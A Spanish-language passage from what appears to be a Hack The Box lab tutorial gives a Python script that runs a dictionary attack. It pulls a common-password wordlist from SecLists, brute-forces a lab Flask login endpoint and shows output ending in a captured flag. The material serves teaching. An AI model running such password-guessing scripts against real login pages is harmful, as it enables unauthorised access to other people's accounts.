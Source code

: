 Copia y pega este script de Python a continuación como `dictionary-solver.py` en tu máquina. Solo necesitas modificar las variables IP y port para que coincidan con la información del sistema objetivo.

```r
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

El script de Python orquesta el dictionary attack. Realiza los siguientes pasos:

1. `Descarga la Wordlist`: Primero, el script obtiene una wordlist de 500 contraseñas comúnmente usadas de SecLists utilizando la librería `requests`.
2. `Itera y Envía Contraseñas`: Luego, itera a través de cada contraseña en

la wordlist descargada. Por cada contraseña, envía una solicitud POST al endpoint `/dictionary` de la aplicación Flask, incluyendo la contraseña en los datos del formulario de la solicitud. 3. `Analiza las Respuestas`: El script verifica el código de estado de la respuesta después de cada solicitud. Si es 200 (OK), examina el contenido de la respuesta. Si la respuesta contiene la clave "flag", significa un inicio de sesión exitoso. El script imprime la contraseña descubierta y la flag capturada. 4. `Continúa o Termina`: Si la respuesta no indica éxito, el script procede a la siguiente contraseña en la wordlist. Este proceso continúa hasta encontrar la contraseña correcta o agotar toda la wordlist.

```r
python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```